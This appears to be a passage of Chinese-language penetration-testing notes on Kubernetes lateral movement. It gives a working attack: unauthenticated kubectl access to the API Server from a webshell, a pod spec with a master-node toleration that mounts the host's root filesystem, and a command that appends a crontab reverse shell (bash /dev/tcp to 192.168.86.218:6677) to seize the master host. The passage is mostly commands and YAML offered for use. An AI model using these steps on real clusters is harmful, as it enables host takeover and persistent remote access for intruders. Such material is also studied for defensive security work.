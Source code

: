 - 信息收集得到config配置文件

假设已经获得部署一个恶意pod的权限，还有一个问题就是默认pod是不会被部署到Master节点上的，这是因为Master节点具有污点属性，只有具备对应容忍度的pod才可以被部署到Master节点，解决方法就是**清除Master节点的污点或者部署pod时加上对应容忍度属性**



### 横向移动

> 以下为在pod服务的webshell上进行Api Server未授权访问操作

#### 部署pod时加上对应容忍度属性

```shell
# --username=a --password=a 因为webshell不是交互式终端，不加的话会让你输入用户名这样是行不通的
./kubectl --server=https://10.96.0.1:443 --insecure-skip-tls-verify=true --username=a --password=a

# 获取pod的污点信息
./kubectl --server=https://10.96.0.1:443 --insecure-skip-tls-verify=true --username=a --password=a describe nodes  | grep Taints 
# 部署pod到Master节点，可能需要修改容器名字多尝试几次,调度问题？
./kubectl --server=https://10.96.0.1:443 --insecure-skip-tls-verify=true --username=a --password=a create -f ./x.yaml
# 获取pod信息以及pod部署到哪个节点 get pods -o wide
./kubectl --server=https://10.96.0.1:443 --insecure-skip-tls-verify=true --username=a --password=a get pods -o wide  
# 反弹shell获取Master节点的宿主机权限
./kubectl --server=https://10.96.0.1:443 --insecure-skip-tls-verify=true --username=a --password=a exec control-master-x231 -- bash -c "echo -e '* * * * * root bash -i >& /dev/tcp/192.168.86.218/6677 0>&1\\n' >> /master/etc/crontab"
```

x.yaml

```yaml
cat > x.yaml << EOF
apiVersion: v1
kind: Pod
metadata:
  name: control-master-x
spec:
  tolerations:
  - key: "node-role.kubernetes.io/master"  # 污点名字
    operator: "Exists"
    effect: "NoSchedule"
  containers:
  - name: control-master-x   # 容器名字
    image: ubuntu:18.04
    command: ["/bin/sleep", "3650d"]
    volumeMounts:
    - name: master
      mountPath: /master # 
  volumes:
  - name: master
    hostPath:
      path: /
      type: Directory
EOF
```
